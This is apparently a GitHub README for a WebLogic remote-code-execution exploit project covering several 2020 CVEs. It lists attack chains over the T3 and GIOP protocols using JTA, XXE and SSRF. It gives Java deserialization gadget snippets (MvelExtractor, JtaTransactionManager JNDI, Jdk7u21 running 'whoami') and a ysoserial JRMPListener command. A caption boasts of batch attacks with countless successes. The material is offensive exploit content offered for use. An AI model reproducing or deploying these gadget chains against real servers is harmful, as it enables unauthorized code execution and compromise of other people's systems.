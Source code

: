 Twitter: [@Hktalent3135773](https://twitter.com/Hktalent3135773)
[![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/tweet?original_referer=https%3A%2F%2Fdeveloper.twitter.com%2Fen%2Fdocs%2Ftwitter-for-websites%2Ftweet-button%2Foverview&ref_src=twsrc%5Etfw&text=myhktools%20-%20Automated%20Pentest%20Recon%20Scanner%20%40Hktalent3135773&tw_p=tweetbutton&url=https%3A%2F%2Fgithub.com%2Fhktalent%2Fmyhktools)
[![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773)

# 1、Weblogic RCE exploit
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic RCE T3 payload exploit poc python3

# 2、exploit
- GIOP + send bind (CVE-2020-2555、CVE-2019-2888<XXE>、CVE-2019-2888<XXE+SSRF> or others)
- GIOP + send jta (rmi or others)
- GIOP + send jta + SSRF
- T3 + send jta
- T3 + send jta + SSRF
- T3 + send XXE
- T3 + send XXE + SSRF

#### 2.1、rmi server,see
- don't use org.mozilla.classfile.DefiningClassLoader
- don't use java -cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 'whoami'
more see:
https://github.com/hktalent/CVE-2020-2551

# 3、code
### 3.1、code1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### 3.2、code2
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### 3.3、code3
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

### 3.4、code4
```
weblogic.iiop.IIOPRemoteRefd,ObjectMessageImpl
```

# 4、CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="815" alt="image" src="https://user-images.githubusercontent.com/18223385/80388926-0cac7480-88dd-11ea-9531-cadcc688c8a3.png">

<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">


# 5、thanks for
@[r4v3zn](https://github.com/r4v3zn)
@[0nise](https://github.com/0nise)
